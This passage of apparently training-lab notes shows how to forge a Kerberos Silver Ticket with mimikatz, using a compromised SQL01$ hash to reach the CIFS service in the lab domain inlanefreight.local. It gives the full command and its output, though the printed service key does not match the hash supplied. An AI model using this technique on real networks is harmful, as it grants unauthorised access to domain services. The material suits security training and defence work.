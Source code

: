 
![Get-Domain-SID](/Silver-Ticket/images/sid.png) 


We also must have **compromised a service account (one way or another) to get its NTLM hash**. We must also **specify an SPN** because a **TGS ticket is always generated for one SPN only**. We can use **mimikatz** to forge a **Silver Ticket** when we have this information.

Let's say we compromised the **SQL01$ account**. We have its **NTLM hash**. We want to **craft a TGS ticket** to access the **SQL01 filesystem**. We'll need a **CIFS/SQL01 TGS** ticket to do so. 



## Using Mimikatz to Create a Silver Ticket



	PS C:\Tools> .\mimikatz.exe

	  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
	 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
	 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
	 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
	 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
	  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

	mimikatz # kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-1870146311-1183348186-593267556 /rc4:027c6604526b7b16a22e320b76e54a5b /target:sql01.inlanefreight.local /service:cifs /ptt
	User      : Administrator
	Domain    : inlanefreight.local (INLANEFREIGHT)
	SID       : S-1-5-21-1870146311-1183348186-593267556
	User Id   : 500
	Groups Id : *513 512 520 518 519
	ServiceKey: ff955e93a130f5bb1a6565f32b7dc127 - rc4_hmac_nt
	Target    : sql01.inlanefreight.local
	Lifetime  : 1/15/2024 7:47:39 AM ; 1/12/2034 7:47:39 AM ; 1/12/2034 7:47:39 AM.
	-> Ticket : ticket.kirbi

	 * PAC generated
	 * PAC signed
	 * EncTicketPart generated
	 * EncTicketPart encrypted
	 * KrbCred generated
